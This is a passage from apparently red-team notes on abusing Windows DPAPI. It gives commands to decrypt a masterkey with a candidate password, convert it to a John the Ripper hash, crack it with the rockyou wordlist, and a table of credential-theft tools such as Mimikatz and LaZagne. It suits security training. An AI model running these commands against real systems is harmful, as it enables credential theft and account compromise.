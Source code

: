 - Candidate password: `101RepAdmin123!!`

```bash
DPAPImk2john -mk ../S-1-5-21-2168718921-3906202695-65158103-1000/655a0446-8420-431a-a5d7-2d18eb87b9c3 -S ../S-1-5-21-2168718921-3906202695-65158103-1000 -c local --password '101RepAdmin123!!'
```

If correct, the decrypted key will be displayed.

##### Example 2: Crack with Dictionary

Convert masterkey to John-compatible hash:

```bash
DPAPImk2john -mk 655a0446-8420-431a-a5d7-2d18eb87b9c3 -S . -c local > hash.txt
```

Run the cracker:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

## Key Toolset

| Tool               | Description                                            |
| ------------------ | ------------------------------------------------------ |
| **Mimikatz**       | Decrypt DPAPI blobs, dump hashes, extract LSASS        |
| **SharpDPAPI**     | C# tool for advanced DPAPI abuse                       |
| **Impacket-dpapi** | Python suite for decrypting masterkeys and credentials |
| **DPAPImk2john**   | Converts masterkeys to John-compatible hash formats    |
| **Seatbelt**       | Post-exploitation discovery of DPAPI blobs             |
| **LaZagne**        | Automated local credential extraction                  |
| **BrowserGather**  | Extracts browser-specific secrets                      |
